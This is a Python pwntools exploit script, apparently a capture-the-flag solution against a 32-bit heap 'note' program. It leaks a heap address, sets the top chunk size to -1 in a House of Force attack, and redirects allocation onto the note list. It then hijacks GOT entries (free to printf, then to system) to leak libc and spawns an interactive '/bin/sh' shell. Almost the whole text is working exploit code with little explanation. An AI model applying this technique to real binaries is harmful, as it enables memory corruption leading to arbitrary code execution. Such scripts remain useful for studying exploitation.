 ```python
	p.send('a'*0x38+'b'*8)
	p.recvuntil('b'*8)
	leakheap_addr = u32(p.read(4))

	#step2. set topchunk's size is -1
	p.recvuntil('Org:')
	p.send('b'*0x40)
	p.recvuntil('Host:')
	p.send(p32(0xffffffff)+'\n')

	#step3. alter the topchunk pointer to the target_addr(0x804b118)
	note_list = 0x804B120
        target_addr = note_list - 0x8
        top_addr = leakheap_addr + 0x40 + 0x48 + 0x48 + 24
        log.success("top_addr: "+hex(top_addr))
	malloc_size = -(top_addr-target_addr) - 0x4 -0x8
	log.success("malloc_size: "+hex(malloc_size))
	newNote(0x10,'aaaa')
	newNote(malloc_size,'cccc')


	#step4. leak atoi_addr
	payload = p32(elf.got['free'])
	payload += p32(elf.got['atoi'])
	payload += p32(elf.got['atoi'])
	newNote(0x100,payload)
	editNote(0,p32(elf.symbols['printf']))
	deleteNote(1)
	atoi_addr = u32(p.recvuntil('Delete success.')[1:5])
	log.success('atoi_addr: '+hex(atoi_addr))

	#step5. calc system_addr
	libc_base = atoi_addr - libc.symbols['atoi']
	log.success('libc_addr: '+hex(libc_base))
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr: '+hex(system_addr))

	#step6. get shell
	editNote(2,p32(system_addr))
	p.recvuntil('option--->>')
	p.sendline('/bin/sh;')
	p.interactive()

if __name__ == "__main__":
	pwn()
```
